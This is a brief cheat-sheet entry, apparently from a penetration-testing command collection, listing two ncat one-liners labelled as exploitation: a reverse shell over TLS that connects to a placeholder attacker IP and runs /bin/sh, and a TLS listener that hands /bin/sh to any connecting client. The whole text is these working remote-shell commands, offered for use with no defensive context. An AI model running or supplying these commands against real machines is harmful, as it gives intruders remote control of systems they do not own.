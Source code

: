 # [Exploitation] Reverse shell over TLS (connect to listener) --ncat
ncat --ssl <attacker_ip> <port> -e /bin/sh -nv

# [Exploitation] TLS listener with exec /bin/sh --ncat
ncat -lvnp <port> --ssl --keep-open --exec "/bin/sh"
